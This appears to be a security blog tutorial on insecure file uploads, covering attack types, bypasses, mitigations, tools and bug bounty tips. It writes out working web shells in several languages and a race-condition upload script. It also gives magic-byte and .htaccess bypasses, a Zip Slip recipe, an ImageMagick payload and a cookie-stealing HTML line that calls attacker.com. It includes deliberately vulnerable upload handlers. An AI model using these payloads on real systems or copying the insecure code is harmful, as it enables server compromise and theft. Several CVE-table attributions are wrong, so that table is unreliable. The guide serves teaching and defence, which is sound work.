


```markdown

---
title: "File Upload Vulnerabilities — A Complete Guide"
description: "A comprehensive guide to understanding, exploiting, and mitigating insecure file upload vulnerabilities in modern web applications."
date: 2024-01-15 10:00:00 +0000
categories: [Web Security, Vulnerabilities]
tags: [file-upload, web-security, owasp, bug-bounty, penetration-testing, rce]
pin: true
math: false
mermaid: true


---

## What are File Upload Vulnerabilities?

**Insecure File Upload** is a web security vulnerability that occurs when an application allows users to upload files without properly validating, sanitizing, or restricting them. Attackers can exploit this to upload malicious files that, when processed or accessed by the server, lead to **Remote Code Execution (RCE)**, **Cross-Site Scripting (XSS)**, **Denial of Service (DoS)**, or **complete system compromise**.

In a typical file upload attack, the attacker might:

- Upload a **web shell** to execute arbitrary commands on the server
- Upload **malicious scripts** (PHP, ASP, JSP, Python) disguised as images or documents
- Trigger **XSS** via uploaded SVG, HTML, or PDF files
- Perform **path traversal** to overwrite critical system files
- Cause **DoS** via zip bombs, oversized files, or resource-intensive processing
- Chain with **Local File Inclusion (LFI)** or **Server-Side Request Forgery (SSRF)**

> While not explicitly listed as a standalone item in the [OWASP Top 10 (2021)](https://owasp.org/Top10/), insecure file upload consistently ranks among the **highest-impact vulnerabilities** in bug bounty programs and enterprise penetration tests due to its direct path to RCE.
{: .prompt-info }


---

## Simple Analogy

Imagine a secure office building with a mailroom. Employees can drop off packages, but the receptionist **never opens or scans them** before placing them directly on the executive's desk. A malicious actor could slip a listening device or a timed explosive into a seemingly harmless package. That's exactly what insecure file upload does — it trusts user-supplied files without verifying their contents or intent.


---

## How Does File Upload Exploitation Work?

### Visual Attack Flow



### The Attack Flow — Step by Step

| Step | Action |
|------|--------|
| 1 | Application provides an upload form or API endpoint |
| 2 | Attacker crafts a malicious file (web shell, script, archive) |
| 3 | Attacker bypasses client/server-side validation (extension, MIME, size) |
| 4 | Server saves the file to a publicly accessible or executable directory |
| 5 | Attacker accesses the file URL, triggering execution or rendering |
| 6 | Attacker gains RCE, XSS, or system access |

### Architecture Diagram

```mermaid
graph LR
    A[Attacker] -->|Malicious File| B[Vulnerable Upload Endpoint]
    B -->|Saves to Webroot| C[/uploads/shell.php]
    C -->|HTTP Request| D[Web Server / PHP-FPM]
    D -->|Executes Code| E[OS Shell / Database]
    E -->|Reverse Shell / Data| A

    style A fill:#e74c3c,stroke:#c0392b,color:#fff
    style B fill:#f39c12,stroke:#e67e22,color:#fff
    style C fill:#9b59b6,stroke:#8e44ad,color:#fff
    style D fill:#3498db,stroke:#2980b9,color:#fff
    style E fill:#2ecc71,stroke:#27ae60,color:#fff
```


---

## Types of File Upload Vulnerabilities

### 1. Unrestricted File Upload

The application performs **no validation** on the uploaded file. Attackers can upload any extension, MIME type, or content.

**Example Request:**

```http
POST /api/upload HTTP/1.1
Host: vulnerable-app.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

The server saves `shell.php` in a web-accessible directory. Visiting `https://vulnerable-app.com/uploads/shell.php?cmd=id` executes OS commands.


---

### 2. Extension-Based Validation Bypass

The application checks the file extension but uses a **blocklist** or weak parsing logic.

**Common Bypasses:**
- Double extensions: `shell.php.jpg`, `shell.asp;.jpg`
- Case sensitivity: `shell.PHP`, `shell.Aspx`
- Null bytes (older systems): `shell.php%00.jpg`
- Alternative extensions: `.phtml`, `.php5`, `.phar`, `.cgi`


---

### 3. MIME Type / Content-Type Bypass

The server validates `Content-Type` headers but doesn't verify actual file content.

**Example:**

```http
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
```

The server sees `image/jpeg` and allows the upload, ignoring the actual PHP code.


---

### 4. Magic Bytes / File Signature Bypass

The server reads the first few bytes (file signature) to verify file type but doesn't check the rest.

**Example — Injecting PHP into a JPEG:**

```bash
# Create a valid JPEG header + PHP payload
echo -ne '\xFF\xD8\xFF\xE0' > image.php
echo '<?php system($_GET["cmd"]); ?>' >> image.php
```

Upload `image.php`. The server sees `FF D8 FF E0` (JPEG magic bytes) and allows it.


---

### 5. Archive-Based Attacks (Zip Slip / Bomb)

Uploading `.zip`, `.tar`, `.gz` files that extract to arbitrary paths or cause resource exhaustion.

- **Zip Slip:** `../../../etc/passwd` inside archive overwrites system files
- **Zip Bomb:** Highly compressed file expands to terabytes, causing DoS


---

### 6. Client-Side Validation Only

The application uses JavaScript to restrict uploads, but the server performs no checks.

```html
<input type="file" accept=".jpg,.png" id="upload">
<script>
  // Easily bypassed by disabling JS or intercepting with Burp
</script>
```


---

## Where to Find File Upload Vulnerabilities

File upload flaws hide in many features. Here are the most common places to look:

| Feature | Example Parameter | Risk Level |
|---------|------------------|------------|
| Profile Picture / Avatar | `avatar=`, `profile_pic=` | 🔴 High |
| Document Import | `document=`, `csv_file=` | 🔴 High |
| Media Library / CMS | `media[]`, `attachment=` | 🔴 High |
| Chat / File Sharing | `file=`, `attachment=` | 🟡 Medium |
| API Endpoints | `POST /api/upload`, `multipart/form-data` | 🔴 High |
| Bulk Import Tools | `import_file=`, `backup.zip=` | 🔴 High |
| Email Attachments | `attachment[]`, `file_data=` | 🟡 Medium |
| Image Processing | `resize=`, `convert=` (ImageMagick) | 🔴 High |


---

## Common File Upload Attack Targets & Payloads

### Web Shells by Language

| Language | Extension | Payload Example |
|----------|-----------|-----------------|
| **PHP** | `.php`, `.phtml`, `.php5` | `<?php system($_GET['c']); ?>` |
| **ASP.NET** | `.aspx`, `.ashx` | `<%@ Page Language="C#" %><% Response.Write(new System.IO.StreamReader(Request.QueryString["f"]).ReadToEnd()); %>` |
| **JSP** | `.jsp` | `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>` |
| **Python** | `.py`, `.cgi` | `#!/usr/bin/env python\nimport os; os.system(os.environ.get("CMD"))` |
| **Node.js** | `.js` | `require('child_process').exec(req.query.cmd, (e, o) => res.send(o))` |

### Non-Executable Payloads

| Type | Extension | Impact |
|------|-----------|--------|
| **SVG XSS** | `.svg` | `<svg onload="alert(document.cookie)">` |
| **HTML Injection** | `.html` | `<script>fetch('https://attacker.com/?c='+document.cookie)</script>` |
| **PDF SSRF** | `.pdf` | Embedded external links or JavaScript |
| **EXE / Binary** | `.exe`, `.sh` | Downloaded & executed by admin/users |
| Config Files | `.htaccess`, `.user.ini` | Change server behavior to execute `.jpg` as PHP |

> **`.htaccess` uploads are extremely dangerous.** A single misconfigured Apache upload directory can turn every `.jpg` into executable PHP.
{: .prompt-danger }


---

## Real-World File Upload Exploitation

### Scenario 1: Basic PHP Web Shell Upload

**Step 1 — Upload the shell:**

```http
POST /upload.php HTTP/1.1
Host: vulnerable-app.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php echo shell_exec($_GET['cmd']); ?>
------WebKitFormBoundary--
```

**Step 2 — Execute commands:**

```bash
curl "https://vulnerable-app.com/uploads/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl "https://vulnerable-app.com/uploads/shell.php?cmd=cat+/etc/passwd"
```


---

### Scenario 2: SVG XSS via Profile Picture

Many apps accept SVGs for avatars but don't sanitize them.

**Payload (`xss.svg`):**

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
  <rect width="100%" height="100%" fill="red" />
</svg>
```

**Impact:** When an admin views the profile page, the script executes in their browser, enabling session hijacking or CSRF.


---

### Scenario 3: Bypassing Extension Filters with `.htaccess`

If `.php` is blocked but `.jpg` and `.htaccess` are allowed:

**Upload `.htaccess`:**

```apache
AddType application/x-httpd-php .jpg
```

**Upload `shell.jpg`:**

```php
<?php system($_GET['cmd']); ?>
```

**Access:** `https://vulnerable-app.com/uploads/shell.jpg?cmd=whoami` → Executes as PHP.


---

### Scenario 4: Bypassing Magic Bytes Validation

```bash
# Create a GIF with embedded PHP
echo -ne 'GIF89a' > payload.php
echo '<?php phpinfo(); ?>' >> payload.php

# Upload payload.php
# Server checks first 6 bytes, sees "GIF89a", allows upload
# Accessing it executes PHP
```


---

### Scenario 5: Zip Slip (Path Traversal via Archive)

**Malicious ZIP structure:**

```text
archive.zip
├── ../../../var/www/html/shell.php
└── safe_image.jpg
```

**Exploitation:**

```bash
# Create malicious zip
mkdir -p malicious
echo '<?php system($_GET["c"]); ?>' > malicious/shell.php
zip -r exploit.zip malicious/
mv exploit.zip archive.zip

# Upload archive.zip
# If app extracts without sanitization, shell.php lands in webroot
```


---

### Scenario 6: ImageMagick / Ghostscript RCE (CVE-2016-3714)

Upload a malicious image that triggers command execution during processing.

**Payload (`exploit.mvg`):**

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls "-la)'
pop graphic-context
```

Upload as `.mvg` or `.jpg`. When the server resizes/converts it using ImageMagick, `ls -la` executes.


---

## File Upload Bypass Techniques

When basic uploads are blocked, attackers use these techniques:

### 1. Extension Manipulation

```text
shell.php.jpg
shell.php;.jpg
shell.php%00.jpg
shell.PHP
shell.pHp
shell.php5
shell.phtml
shell.phar
```

### 2. MIME Type Spoofing

```http
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: application/octet-stream
Content-Type: text/plain
```

### 3. Magic Byte Injection

```bash
# PNG header
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.php
echo '<?php system($_GET["c"]); ?>' >> shell.php

# GIF header
echo -ne 'GIF89a' > shell.jpg
echo '<?php phpinfo(); ?>' >> shell.jpg
```

### 4. Double Encoding & Null Bytes

```text
shell.php%00.jpg
shell.php%2500.jpg
shell.php%252500.jpg
```

### 5. Apache `.htaccess` Override

```apache
AddHandler application/x-httpd-php .jpg
AddType application/x-httpd-php .png
<FilesMatch "\.jpg$">
  SetHandler application/x-httpd-php
</FilesMatch>
```

### 6. Nginx Misconfiguration Bypass

If Nginx passes `.php` to PHP-FPM but blocks direct access:

```text
/shell.php/
/shell.php/.
/shell.php%20
```

### 7. Client-Side Bypass

- Disable JavaScript in browser
- Intercept request with Burp Suite and modify `filename` or `Content-Type`
- Use `curl` or `Postman` to bypass HTML form restrictions

### 8. Race Condition Upload

Upload a file, then immediately request it before the server renames/moves it to a safe directory.

```python
import requests
import threading

def upload():
    requests.post("https://app.com/upload", files={"file": ("shell.php", "<?php system($_GET['c']); ?>")})

def access():
    while True:
        r = requests.get("https://app.com/uploads/shell.php?c=id")
        if r.status_code == 200:
            print(r.text)
            break

t1 = threading.Thread(target=upload)
t2 = threading.Thread(target=access)
t1.start()
t2.start()
```


---

## Vulnerable Code Examples

### Python (Flask) — Vulnerable

```python
from flask import Flask, request, send_from_directory
import os

app = Flask(__name__)
UPLOAD_FOLDER = 'uploads/'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)

@app.route('/upload', methods=['POST'])
def upload_file():
    """
    VULNERABLE: No extension, MIME, or content validation.
    Uses original filename directly.
    """
    if 'file' not in request.files:
        return "No file part", 400
    
    file = request.files['file']
    if file.filename == '':
        return "No selected file", 400
    
    # Directly saves user-supplied filename — VULNERABLE!
    file.save(os.path.join(UPLOAD_FOLDER, file.filename))
    return f"File uploaded: {file.filename}", 200

@app.route('/uploads/<filename>')
def uploaded_file(filename):
    return send_from_directory(UPLOAD_FOLDER, filename)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```


---

### Node.js (Express + Multer) — Vulnerable

```javascript
const express = require('express');
const multer = require('multer');
const path = require('path');
const app = express();

// VULNERABLE: No file type filtering
const storage = multer.diskStorage({
  destination: (req, file, cb) => cb(null, 'uploads/'),
  filename: (req, file, cb) => cb(null, file.originalname) // Uses original name!
});

const upload = multer({ storage });

app.post('/upload', upload.single('file'), (req, res) => {
  // No validation on req.file.mimetype or req.file.originalname
  res.json({ message: 'File uploaded', path: `/uploads/${req.file.originalname}` });
});

app.use('/uploads', express.static('uploads'));

app.listen(3000, () => console.log('Server running on port 3000'));
```


---

### Java (Spring Boot) — Vulnerable

```java
package com.example.upload;

import org.springframework.web.bind.annotation.*;
import org.springframework.web.multipart.MultipartFile;
import java.io.*;
import java.nio.file.*;

@RestController
@RequestMapping("/api")
public class UploadController {

    private static final String UPLOAD_DIR = "uploads/";

    /**
     * VULNERABLE: No validation on file extension, content, or name.
     */
    @PostMapping("/upload")
    public String uploadFile(@RequestParam("file") MultipartFile file) throws IOException {
        if (file.isEmpty()) {
            return "File is empty";
        }

        // Directly uses original filename — VULNERABLE!
        String fileName = file.getOriginalFilename();
        Path path = Paths.get(UPLOAD_DIR + fileName);
        
        Files.createDirectories(path.getParent());
        file.transferTo(path);
        
        return "Uploaded: " + fileName;
    }
}
```


---

### PHP — Vulnerable

```php
<?php
/**
 * VULNERABLE: Relies on client-side checks and weak server validation.
 */

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $targetDir = "uploads/";
    $fileName = basename($_FILES["file"]["name"]);
    $targetFile = $targetDir . $fileName;

    // Weak check: only looks at extension, easily bypassed
    $allowed = ['jpg', 'jpeg', 'png', 'gif'];
    $ext = strtolower(pathinfo($targetFile, PATHINFO_EXTENSION));

    if (in_array($ext, $allowed)) {
        // VULNERABLE: No MIME validation, no magic byte check, no renaming
        if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
            echo "File uploaded successfully.";
        } else {
            echo "Upload failed.";
        }
    } else {
        echo "Invalid file type.";
    }
}
?>
```


---

### Go — Vulnerable

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
	"path/filepath"
)

func uploadHandler(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
		return
	}

	r.ParseMultipartForm(10 << 20) // 10 MB
	file, header, err := r.FormFile("file")
	if err != nil {
		http.Error(w, "Error retrieving file", http.StatusBadRequest)
		return
	}
	defer file.Close()

	// VULNERABLE: Uses original filename without validation
	dst, err := os.Create(filepath.Join("uploads", header.Filename))
	if err != nil {
		http.Error(w, "Error saving file", http.StatusInternalServerError)
		return
	}
	defer dst.Close()

	io.Copy(dst, file)
	fmt.Fprintf(w, "Uploaded: %s", header.Filename)
}

func main() {
	http.HandleFunc("/upload", uploadHandler)
	fmt.Println("Server running on :8080")
	http.ListenAndServe(":8080", nil)
}
```


---

## Mitigation & Prevention

### 1. Strict Allowlist Validation (Extension + MIME + Magic Bytes)

```python
import os
import magic
from flask import Flask, request, abort
from werkzeug.utils import secure_filename

app = Flask(__name__)
UPLOAD_FOLDER = 'uploads/'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf'}
ALLOWED_MIME_TYPES = {
    'image/png', 'image/jpeg', 'image/gif', 'application/pdf'
}

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def validate_magic_bytes(file_data):
    """Verify file signature matches claimed type."""
    mime = magic.from_buffer(file_data[:2048], mime=True)
    return mime in ALLOWED_MIME_TYPES

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        abort(400)
    
    file = request.files['file']
    if file.filename == '' or not allowed_file(file.filename):
        abort(403, "Invalid file extension")
    
    # Read first bytes for magic check
    file_data = file.read(2048)
    file.seek(0)
    
    if not validate_magic_bytes(file_data):
        abort(403, "File content does not match allowed types")
    
    # Generate random filename to prevent overwrite & path traversal
    import uuid
    safe_filename = f"{uuid.uuid4().hex}.{file.filename.rsplit('.', 1)[1].lower()}"
    
    os.makedirs(UPLOAD_FOLDER, exist_ok=True)
    file.save(os.path.join(UPLOAD_FOLDER, safe_filename))
    
    return {"message": "Upload successful", "filename": safe_filename}, 200
```


---

### 2. Store Files Outside Webroot

```text
# Directory Structure
/var/www/app/
├── public/          # Web-accessible
├── src/
└── uploads/         # NOT web-accessible
    └── secure/      # Store files here

# Serve via controlled route
@app.route('/files/<filename>')
def serve_file(filename):
    path = os.path.join('/var/www/app/uploads/secure', filename)
    if not os.path.exists(path):
        abort(404)
    return send_file(path)
```


---

### 3. Disable Execution in Upload Directory

**Apache (`.htaccess` in uploads/):**

```apache
<Directory "/var/www/app/uploads">
    RemoveHandler .php .phtml .php3 .php4 .php5 .phps
    RemoveType .php .phtml .php3 .php4 .php5 .phps
    php_flag engine off
    <FilesMatch "\.(php|phtml|php3|php4|php5|phps)$">
        Order Allow,Deny
        Deny from all
    </FilesMatch>
</Directory>
```

**Nginx:**

```nginx
location /uploads/ {
    location ~ \.(php|phtml|php3|php4|php5|phps|asp|aspx|jsp|cgi)$ {
        deny all;
    }
    # Serve as static files only
    try_files $uri =404;
}
```


---

### 4. File Size & Rate Limiting

```python
app.config['MAX_CONTENT_LENGTH'] = 5 * 1024 * 1024  # 5 MB limit

# Rate limiting example (Flask-Limiter)
from flask_limiter import Limiter
limiter = Limiter(app, key_func=lambda: request.remote_addr)

@app.route('/upload', methods=['POST'])
@limiter.limit("10 per minute")
def upload_file():
    # ...
```


---

### 5. Secure Code Example — Complete Implementation

```python
#!/usr/bin/env python3
"""
Secure File Uploader - Defense-in-Depth Implementation
"""

import os
import uuid
import magic
import hashlib
from flask import Flask, request, abort, jsonify
from werkzeug.utils import secure_filename

app = Flask(__name__)

# ============================================================
# Configuration
# ============================================================
UPLOAD_DIR = '/var/app/uploads/secure/'
MAX_FILE_SIZE = 5 * 1024 * 1024  # 5 MB
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf', 'txt'}
ALLOWED_MIME_TYPES = {
    'image/png': b'\x89PNG\r\n\x1a\n',
    'image/jpeg': b'\xff\xd8\xff',
    'image/gif': b'GIF89a',
    'application/pdf': b'%PDF-',
    'text/plain': None  # No magic bytes required
}

os.makedirs(UPLOAD_DIR, exist_ok=True)

# ============================================================
# Validation Functions
# ============================================================

def validate_extension(filename):
    if '.' not in filename:
        return False
    ext = filename.rsplit('.', 1)[1].lower()
    return ext in ALLOWED_EXTENSIONS

def validate_magic_bytes(file_bytes, mime_type):
    expected = ALLOWED_MIME_TYPES.get(mime_type)
    if expected is None:
        return True
    return file_bytes.startswith(expected)

def generate_safe_filename(original_name):
    ext = original_name.rsplit('.', 1)[1].lower()
    return f"{uuid.uuid4().hex}.{ext}"

# ============================================================
# Routes
# ============================================================

@app.route('/api/upload', methods=['POST'])
def secure_upload():
    if 'file' not in request.files:
        return jsonify({"error": "No file provided"}), 400
    
    file = request.files['file']
    if file.filename == '' or not validate_extension(file.filename):
        return jsonify({"error": "Invalid or disallowed file extension"}), 403
    
    # Read file content for validation
    file_data = file.read(MAX_FILE_SIZE + 1)
    if len(file_data) > MAX_FILE_SIZE:
        return jsonify({"error": "File exceeds maximum size (5MB)"}), 413
    
    # Validate MIME type from headers
    claimed_mime = file.content_type or 'application/octet-stream'
    if claimed_mime not in ALLOWED_MIME_TYPES:
        return jsonify({"error": "Disallowed MIME type"}), 403
    
    # Validate actual content via magic bytes
    if not validate_magic_bytes(file_data[:10], claimed_mime):
        return jsonify({"error": "File content does not match declared type"}), 403
    
    # Scan for malware (optional but recommended)
    # clamav = pyclamd.ClamdNetworkSocket()
    # if clamav.scan_stream(file_data):
    #     return jsonify({"error": "Malware detected"}), 403
    
    # Save securely
    safe_name = generate_safe_filename(file.filename)
    file_path = os.path.join(UPLOAD_DIR, safe_name)
    
    with open(file_path, 'wb') as f:
        f.write(file_data)
    
    # Set restrictive permissions
    os.chmod(file_path, 0o644)
    
    return jsonify({
        "message": "Upload successful",
        "file_id": safe_name,
        "sha256": hashlib.sha256(file_data).hexdigest()
    }), 200

@app.errorhandler(413)
def request_entity_too_large(e):
    return jsonify({"error": "File too large"}), 413

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000, debug=False)
```


---

### Defense-in-Depth Checklist

- [x] Implement strict extension allowlist (never use blocklists)
- [x] Validate MIME types AND magic bytes/file signatures
- [x] Generate random server-side filenames (never trust `originalname`)
- [x] Store uploads outside the webroot or disable execution in upload dirs
- [x] Enforce file size limits and rate limiting
- [x] Scan uploads with antivirus/malware detection (ClamAV, YARA)
- [x] Strip metadata (EXIF, XMP) to prevent info leakage
- [x] Use `Content-Disposition: attachment` for serving user files
- [x] Apply least-privilege permissions (`644` for files, `755` for dirs)
- [x] Log all upload attempts and monitor for anomalies
- [x] Use cloud storage (S3, GCS) with strict IAM policies and WAF rules
- [x] Disable dangerous server modules (e.g., `mod_php` in upload dirs)
- [x] Implement CSP headers to mitigate XSS from uploaded SVG/HTML


---

## File Upload Testing Tools

| Tool | Description | Link |
|------|-------------|------|
| **Burp Suite** | Intercept, modify `Content-Type`, `filename`, and test bypasses | [portswigger.net](https://portswigger.net/burp) |
| **ffuf** | Fuzz upload endpoints, extensions, and parameters | [GitHub](https://github.com/ffuf/ffuf) |
| **ExifTool** | Read/write metadata, inject payloads into image headers | [exiftool.org](https://exiftool.org/) |
| **file** (Linux) | Verify magic bytes and actual file type | `file payload.php` |
| **UploadScanner** | Burp extension for automated file upload testing | [GitHub](https://github.com/portswigger/upload-scanner) |
| **Nikto** | Scan for insecure upload directories and misconfigurations | [GitHub](https://github.com/sullo/nikto) |
| **YARA** | Create custom rules to detect malicious file patterns | [GitHub](https://github.com/VirusTotal/yara) |
| **ClamAV** | Open-source antivirus engine for upload scanning | [clamav.net](https://www.clamav.net/) |

### Tool Usage Examples

**Burp Suite Upload Bypass:**

1. Intercept upload request
2. Change `filename="shell.php"` to `filename="shell.php.jpg"`
3. Change `Content-Type: application/x-php` to `Content-Type: image/jpeg`
4. Add JPEG magic bytes to payload
5. Forward and test access

**ffuf Extension Fuzzing:**

```bash
ffuf -u https://app.com/upload -X POST \
  -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundary" \
  -d '------WebKitFormBoundary\r\nContent-Disposition: form-data; name="file"; filename="shell.FUZZ"\r\nContent-Type: image/jpeg\r\n\r\n<?php system($_GET["c"]); ?>\r\n------WebKitFormBoundary--' \
  -w extensions.txt -mc 200,302
```

**ExifTool Payload Injection:**

```bash
# Inject PHP into PNG metadata
exiftool -Comment='<?php system($_GET["c"]); ?>' image.png
mv image.png shell.png
# Upload shell.png and access
```


---

## File Upload in Bug Bounty — Tips & Tricks

### Where to Look

1. **Profile/Avatar Uploads** — Often weakly validated
2. **Document/CSV Importers** — May allow `.html` or `.xml`
3. **API `/upload` Endpoints** — Check for missing auth/validation
4. **Chat/File Sharing Features** — May render HTML/SVG inline
5. **Image Processing Pipelines** — ImageMagick, Ghostscript, FFmpeg vulnerabilities
6. **Backup/Restore Features** — Often accept `.zip` or `.tar`
7. **CMS Media Libraries** — WordPress, Drupal, Joomla plugins
8. **Email Attachment Handlers** — May parse malicious MIME structures

### Bug Bounty Payloads Cheat Sheet

```text
# Extension bypasses
shell.php, shell.php.jpg, shell.php;.jpg, shell.PHP, shell.phtml, shell.php5

# MIME spoofing
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: application/octet-stream

# Magic bytes
\x89PNG\r\n\x1a\n
GIF89a
\xff\xd8\xff
%PDF-

# Server config overrides
.htaccess: AddType application/x-httpd-php .jpg
.user.ini: auto_prepend_file = shell.jpg

# SVG XSS
<svg onload="alert(document.domain)"><rect width="100%" height="100%"/></svg>

# Zip Slip
../../../var/www/html/shell.php
```

### Writing a Good File Upload Bug Bounty Report

```text
## Title
Unrestricted File Upload in /api/upload leads to Remote Code Execution

## Summary
The file upload endpoint at `POST /api/upload` fails to properly validate file extensions, MIME types, or content. An attacker can upload a PHP web shell disguised as an image, resulting in full server compromise.

## Steps to Reproduce
1. Navigate to `https://app.com/profile`
2. Upload a file named `shell.php.jpg` containing `<?php system($_GET['c']); ?>`
3. Intercept request and change `Content-Type` to `image/jpeg`
4. Server responds with `{"path": "/uploads/shell.php.jpg"}`
5. Access `https://app.com/uploads/shell.php.jpg?c=id`
6. Observe command execution output

## Impact
- Remote Code Execution as `www-data`
- Full server compromise
- Lateral movement to internal network
- Data exfiltration

## CVSS Score
9.8 (Critical) - CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Remediation
1. Implement strict extension allowlist
2. Validate magic bytes and MIME types server-side
3. Rename files to random UUIDs on upload
4. Store uploads outside webroot
5. Disable script execution in upload directories
```

> A basic file upload bypass might be **Medium** (~$500), but successful **RCE via web shell** consistently rates as **Critical** with bounties ranging from **$5,000 to $50,000+**.
{: .prompt-tip }


---

## Notable File Upload CVEs

| CVE | Application | Impact | CVSS |
|-----|-------------|--------|------|
| CVE-2015-2348 | PHP `move_uploaded_file()` | Null byte truncation bypass | 7.5 |
| CVE-2019-11043 | PHP-FPM | Path info parsing leading to RCE | 9.8 |
| CVE-2021-41773 | Apache HTTP Server | Path traversal & file disclosure | 7.5 |
| CVE-2022-24715 | Apache Commons IO | Zip Slip vulnerability | 7.5 |
| CVE-2021-21315 | GitLab | Unrestricted file upload in project import | 9.9 |
| CVE-2020-11738 | WordPress | Arbitrary file upload via plugin | 9.8 |
| CVE-2023-28252 | WinRAR | ACE archive extraction path traversal | 7.8 |
| CVE-2016-3714 | ImageMagick | Ghostscript RCE via crafted image | 9.8 |
| CVE-2021-3129 | Laravel | File upload deserialization RCE | 9.8 |
| CVE-2022-22965 | Spring Framework | Data binding bypass leading to RCE | 9.8 |


---

## File Upload Attack Decision Tree




---

## Labs & Practice Resources

### Free Labs

1. **[PortSwigger Web Security Academy — File Upload Labs](https://portswigger.net/web-security/file-upload)**
   - Remote code execution via web shell upload
   - Web shell upload via extension blacklist bypass
   - Web shell upload via content-type restriction bypass
   - Web shell upload via path traversal
   - Web shell upload via obfuscated file extension
   - Remote code execution via polyglot web shell upload
   - Web shell upload via race condition

2. **[TryHackMe — File Upload Room](https://tryhackme.com/room/fileupload)** — Guided walkthrough with challenges

3. **[OWASP WebGoat](https://owasp.org/www-project-webgoat/)** — Insecure file upload exercises

4. **[PentesterLab — File Upload Exercises](https://pentesterlab.com/)** — Multiple real-world scenarios

### Paid / CTF Platforms

5. **[HackTheBox](https://www.hackthebox.com/)** — Machines featuring upload misconfigurations
6. **[BugBountyHunter.com](https://www.bugbountyhunter.com/)** — Realistic upload labs
7. **[Root-Me](https://www.root-me.org/)** — File upload challenges in web category
8. **[DVWA](https://github.com/digininja/DVWA)** — Local practice with adjustable security levels


---

## Conclusion

Insecure file upload remains one of the most **direct and devastating** attack vectors in web security. A single misconfigured upload endpoint can bypass firewalls, WAFs, and authentication, handing attackers immediate execution rights on the server.

### Key Takeaways

| For Developers | For Pentesters |
|---------------|---------------|
| Always use allowlists for extensions & MIME types | Test every upload endpoint systematically |
